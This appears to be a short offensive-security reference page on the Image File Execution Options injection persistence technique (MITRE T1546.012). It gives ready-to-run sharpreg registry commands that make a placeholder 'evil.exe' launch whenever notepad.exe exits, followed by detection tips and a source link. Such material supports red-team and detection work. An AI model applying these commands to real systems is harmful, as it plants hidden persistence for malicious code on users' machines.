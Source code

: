 # [Options Injection](https://attack.mitre.org/techniques/T1546/012/)

## Exploit syntax:

```powershell

sharpreg create "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512

sharpreg create "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1


# Replace the last argument with the location of the file you would like to run when the process is closed
sharpreg create "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\evil.exe"


```

## Detection techniques:

* Monitor for abnormal usage of the GFlags tool as well as common processes spawned under abnormal parents and/or with creation flags indicative of debugging such as DEBUG_PROCESS and DEBUG_ONLY_THIS_PROCESS

* Monitor for any registry changes to HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\


## Resources
https://oddvar.moe/2018/04/10/persistence-using-globalflags-in-image-file-execution-options-hidden-from-autoruns-exe/